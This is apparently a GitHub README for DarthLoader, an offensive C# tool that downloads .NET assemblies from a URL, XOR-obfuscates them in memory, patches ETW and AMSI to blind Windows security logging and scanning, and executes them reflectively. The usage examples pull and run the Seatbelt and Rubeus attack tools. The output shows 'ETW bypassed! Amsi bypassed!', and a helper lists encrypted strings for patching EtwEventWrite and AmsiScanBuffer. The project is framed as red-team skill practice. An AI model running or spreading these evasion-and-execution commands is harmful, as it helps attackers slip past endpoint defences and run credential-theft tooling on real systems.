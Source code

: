 # DarthLoader
This is a project heavily inspired by Jean-François Maes's [SANS  Workshop Reflection in C#](https://www.sans.org/webcasts/sans-workshop-reflection-in-c-/) to help (c)sharpen by C# dev skills. A lot of code was borrowed and/or extended for this project from:
- https://github.com/cobbr/SharpSploit/tree/master/SharpSploit/Evasion
- https://jfmaes-1.gitbook.io/reflection-workshop/
- StackOverflow

DarthLoader will do the following:
- Remotely fetch a .Net assembly from the web using a base64 encoded url and Xor the byte array in memory.
- Fetch a local .Net assembly into memory.
- Bypass ETW and AMSI by decrypting function strings at runtime via xor key being passed as cmdline arg.
- Decrypt and run the assembly from memory.

### Usage
```
PS C:\SecToolDev\DarthLoader\DarthLoader\bin\x64\Release> .\DarthLoader.exe

 _______                     __     __       __                              __
|       \                   |  \   |  \     |  \                            |  \
| $$$$$$$\ ______   ______ _| $$_  | $$____ | $$      ______   ______   ____| $$ ______   ______
| $$  | $$|      \ /      |   $$ \ | $$    \| $$     /      \ |      \ /      $$/      \ /      \
| $$  | $$ \$$$$$$|  $$$$$$\$$$$$$ | $$$$$$$| $$    |  $$$$$$\ \$$$$$$|  $$$$$$|  $$$$$$|  $$$$$$\
| $$  | $$/      $| $$   \$$| $$ __| $$  | $| $$    | $$  | $$/      $| $$  | $| $$    $| $$   \$$
| $$__/ $|  $$$$$$| $$      | $$|  | $$  | $| $$____| $$__/ $|  $$$$$$| $$__| $| $$$$$$$| $$
| $$    $$\$$    $| $$       \$$  $| $$  | $| $$     \$$    $$\$$    $$\$$    $$\$$     | $$
 \$$$$$$$  \$$$$$$$\$$        \$$$$ \$$   \$$\$$$$$$$$\$$$$$$  \$$$$$$$ \$$$$$$$ \$$$$$$$\$$


==================== USAGE: ====================

--FunctionsXorKey      : Xor key to decrypt function strings from DarthLoaderHelper.exe
--FilePath             : a local file path or URL to load a .Net asseembly from
--Args                 : Xor key to decrypt function strings from DarthLoaderHelper.exe
--XorKey               : Xor key used to encrypt/decrypt .Net assembly from URL

==================== EXAMPLES: ====================
DarthLoader.exe --FunctionsXorKey testing123 --FilePath https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/Seatbelt.exe --Args AntiVirus --XorKey test

DarthLoader.exe --FunctionsXorKey testing123 --FilePath https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/Rubeus.exe --XorKey test

DarthLoader.exe --FunctionsXorKey testing123 --FilePath C:\Users\d4ddyd4rth\Desktop\Hello.exe

DarthLoader.exe --FunctionsXorKey testing123 --FilePath C:\Users\d4ddyd4rth\Desktop\Hello.exe --Args test
```
### Example
```
PS D:\SecToolDev\DarthLoader\DarthLoader\bin\x64\Release> .\DarthLoader.exe --FunctionsXorKey testing123 --FilePath https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/Seatbelt.exe --Args AntiVirus --XorKey test

[!] ETW bypassed!
[!] Amsi bypassed!
 _______                     __     __       __                              __
|       \                   |  \   |  \     |  \                            |  \
| $$$$$$$\ ______   ______ _| $$_  | $$____ | $$      ______   ______   ____| $$ ______   ______
| $$  | $$|      \ /      |   $$ \ | $$    \| $$     /      \ |      \ /      $$/      \ /      \
| $$  | $$ \$$$$$$|  $$$$$$\$$$$$$ | $$$$$$$| $$    |  $$$$$$\ \$$$$$$|  $$$$$$|  $$$$$$|  $$$$$$\
| $$  | $$/      $| $$   \$$| $$ __| $$  | $| $$    | $$  | $$/      $| $$  | $| $$    $| $$   \$$
| $$__/ $|  $$$$$$| $$      | $$|  | $$  | $| $$____| $$__/ $|  $$$$$$| $$__| $| $$$$$$$| $$
| $$    $$\$$    $| $$       \$$  $| $$  | $| $$     \$$    $$\$$    $$\$$    $$\$$     | $$
 \$$$$$$$  \$$$$$$$\$$        \$$$$ \$$   \$$\$$$$$$$$\$$$$$$  \$$$$$$$ \$$$$$$$ \$$$$$$$\$$


[*] Downloading and encrypting assembly with the key: test
[+] Encrypted assembly loaded into memory...
[+] Hit any key to run...


                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.1.0         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,


====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe



[*] Completed collection in 0.12 seconds

<-----SNIP----->
```

## DarthLoaderHelper
This project was made to help Xor encrypt the strings needed for passing into function calls to patch ETW/AMSI in Helpers.cs.  
```
D:\SecToolDev\DarthLoaderHelper.exe testing123

[+] Encrypting with key: testing123
[+] Encrypted string 'etwbypass': 11110416101E064241
[+] Encrypted string 'amsibypass': 1508001D0B1717504140
[+] Encrypted string 'ntdll.dll': 1A1117180540035D5E
[+] Encrypted string 'EtwEventWrite': 311104311F0B094565411D1116
[+] Encrypted string 'amsi.dll': 1508001D470A0B5D
[+] Encrypted string 'AmsiScanBuffer': 3508001D3A0D065F704612031606
```

## To-do
- [X] Help menu
- [X] Paramerize URL 
- [X] Add local file assembly loading and parameterize file path 
- [X] Paramerize assembly parameters
